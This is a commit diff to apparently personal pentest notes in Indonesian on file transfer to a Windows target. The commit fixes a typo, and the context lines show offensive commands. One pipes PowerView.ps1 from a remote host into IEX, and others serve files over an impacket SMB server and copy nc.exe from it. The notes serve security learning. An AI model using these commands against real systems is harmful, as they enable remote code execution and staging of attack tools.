

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: notes/file-transfer.md, the part around the change. GitHub-like rendering.

Commit message:
Fix typos and update SMB server instructions
Corrected typos and clarified server SMB instructions.

`````diff
--- a/notes/file-transfer.md
+++ b/notes/file-transfer.md
@@ -48,7 +48,7 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
 ````
 
 ### Metode 3: SMB download
-- Server SMB di komputeruter attacker
+- Server SMB di komputer attacker
   ```
   sudo impacket-smbserver share -smb2support /tmp/smbshare
   ```
@@ -57,7 +57,7 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   copy \\<ip>\share\nc.exe
   ```
 - Versi windows baru memblokir akses yang tidak terautentikasi
-- Server SMB di komputeruter attacker:
+- Server SMB di komputer attacker:
   ```
   sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
   ```
`````
